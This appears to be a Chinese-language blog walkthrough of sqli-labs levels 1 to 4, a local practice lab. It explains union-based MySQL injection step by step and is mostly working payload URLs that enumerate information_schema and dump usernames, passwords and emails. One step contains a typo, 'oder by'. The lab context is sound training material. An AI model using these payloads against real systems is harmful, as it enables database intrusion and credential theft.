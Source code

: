 ```yaml
---
layout: post
title:  "联合查询注入"
subtitle: "sqli-labs"
date:   2020-03-24 16：43
categories: [pentest]
---
```

mysql注入语句

联合查询

> 1. 单引号判断
>
> 2. 查询列数
>
>    ```sql
>      ?id=1' oder by num %23
>    ```
>
> 3. 查询返回列
>
>    ```mysql
>      ?id=-1' union select 1,2,3 %23
>    ```
>
> 4. 查询数据库
>
>    ```mysql
>      ?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata%23
>    ```
>
> 5. 查询表名
>
>    ```mysql
>      ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23
>    ```
>
> 6. 查询列名
>
>    ```mysql
>      ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'%23
>    ```
>
> 7. 查询数据
>
>    ```mysql
>      ?id=-1' union select 1,username,password from users where id =2%23
>    ```

## less1

url

```u
http://127.0.0.1:9999/Less-1/?id=1'
```

报错信息

```mysql
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1 
```

对此猜测数据库查询语句为**错误**

```mysql
select username,password from users where id = $id limit 0,1 
```

实际的源码为

```mysql
SELECT * FROM users WHERE id='$id' LIMIT 0,1
```

这里应该是字符型注入，报错信息中有效信息应该为

``` html
'1'' LIMIT 0,1
可以发现是'1'多了一个'导致报错的
```

那么我们输入payload后在数据库中执行的语句为

```mysql
SELECT * FROM users WHERE id='-1' union select 1,username,password from users where id =2#' LIMIT 0,1
```

## less2

url

```
http://127.0.0.1:9999/Less-2/?id=1%27
```

报错信息

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1
```

其中有效的报错信息就是`' LIMIT 0,1`,那么可以判断这是数字型注入，判断数据库查询语句为

```msyql
select * from users where id = $id limit 0,1
```

输入payload后在数据库中执行的语句为

```mysql
select * from users where id = -1 union select 1,id,email_id from emails where id = 1 #limit 0,1
```

对其进行手注

```mysql
http://127.0.0.1:9999/Less-2/?id=1 order by 3 %23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,3 %23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata %23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema ="security"
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'%23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,id,email_id from emails%23
PS:查询其他表时要保持查询列数一致
```

## less3

url

```
http://127.0.0.1:9999/Less-3/?id=1%27
```

报错信息

```msyql
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1 
```

有用信息为`'1'') LIMIT 0,1`,多了个括号，猜测源码为

```mysql
select * from users where id = ('&id') LIMIT 0,1
```

输入payload后在数据库中执行的语句为

```mysql
select * from users where id = ('-1') union select 1,id,email_id from emails where id =1#') LIMIT 0,1
```

对其进行手注

```mysql
http://127.0.0.1:9999/Less-3/?id=-1%27) order by 3%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,3%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,group_concat(schema_name) from information_schema.schemata%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails'%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,id,email_id from emails where id =1 %23
```

## less4

url

```msyql
http://127.0.0.1:9999/Less-4/?id=1'
```

单引号未报错，尝试双引号报错

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
```

有用信息为`"1"") LIMIT 0,1`，猜测数据库中查询语句为

```mysql
select * from users where id = ("$id") LIMIT 0,1
```

输入payload后数据库执行语句为

```mysql
select * from users where id =("-1") union select 1,id,email_id from emails where id =1 #") LIMIT 0,1
```

对其进行手注

```mysql
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,2,group_concat(schema_name) from information_schema.schemata%23
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails'%23
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,id,email_id from emails where id =1%23
```
